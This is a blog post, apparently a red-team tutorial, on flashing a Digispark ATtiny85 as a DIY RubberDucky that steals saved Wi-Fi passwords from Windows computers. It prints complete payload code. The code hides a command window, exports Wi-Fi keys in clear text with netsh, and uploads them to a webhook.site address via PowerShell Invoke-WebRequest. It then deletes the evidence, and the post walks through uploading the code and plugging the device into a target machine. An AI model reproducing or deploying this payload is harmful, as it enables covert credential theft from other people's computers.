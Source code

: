 ```yaml
---
title: "DIY RubberDucky Wifi Passwords Stealer"
description: "Steal Wifi passwords with a DIY RubberDucky."
date: "2021-08-02"
categories: [PoC]
tags: [windows, rubberducky, Wifi, red team, penetration testing, physical security]
pin: true
math: true
mermaid: true
image:
  path: "/assets/img/rubberducky/rubberducky.png"
  alt: "DIY RubberDucky"
---
```


In this post, I'll walk through how you can steal Wifi passwords with a DIY RubberDucky and send over to a webhook address. This payload will only work with internet access. You can have a local listener setup but that's totally up to you. I'll be using payload from [MTK911](https://github.com/MTK911/Attiny85/tree/master/payloads).<br>

### Webhook

Before we get into setting payload, let's head over to [https://webhook.site/](https://webhook.site/) to get a webhook address that we can use. Copy the webhook address. You will also see an email address that you can use but we won't be utilizing that in this walk thorugh.

```
https://webhook.site/35013eef-f6b1-4833-a3b0-xxxxxxxxxxxx
```

 ![DIY RubberDucky](/assets/img/wifistealer/wifi02.png)

### Payload

Github: [MTK911/Wifi-password-stealer](https://github.com/MTK911/Attiny85/blob/master/payloads/Wi-Fi%20password%20stealer/WifiKey-Grab_Minimize-of-Shame.ino)

You can try out other payloads from MTK911 as well. He posted quite a number of awesome payloads.

Fire up your Arduino IDE. Make sure Digispark drivers are installed. If you haven't done so already, please see my previous post for the setup guide.

Make sure that Boards Manager is set to `Digistump 16.5mhz` and Programmer set to `Micronucleus`.

Paste the code into the IDE:

```
/*
  Following payload will grab saved Wifi password and will send them to your hosted webhook and hide the cmd windows by using technique mentioned in hak5darren
 rubberducky wiki -- Payload hide cmd window [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---hide-cmd-window]
*/


#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
   
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
 
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible
  DigiKeyboard.delay(500);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu  
  DigiKeyboard.sendKeyStroke(KEY_M); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);
  
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
  
}
```

Your IDE should now look something like this:

![DIY RubberDucky](/assets/img/wifistealer/wifi01.png)

Be sure to paste in your unique webhook address that you obtained above. You can play around with the delay to better suit your needs. 

Press `Upload` button when ready.

![DIY RubberDucky](/assets/img/instantshell/shell02.png)

You will see the message saying: `Plug in the device now...`.

![DIY RubberDucky](/assets/img/instantshell/shell03.png)

Plug in your ATtiny85. When done, `Micronucleus done. Thank you!` message will show.

![DIY RubberDucky](/assets/img/instantshell/shell04.png)

> Always remember to unplug the Digispark before hitting upload and plug it in when the Arduino IDE requests you to. If you get an error that assertion failed or micronucleus crashed during upload then you probably did not unplug your Digispark before uploading.

Now, plug the device into a computer and wait for it to trigger.

![DIY RubberDucky](/assets/img/wifistealer/wifi03.png)

For any questions, feel free to reach out to me on twitter.

> DISCLAIMER: All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things. 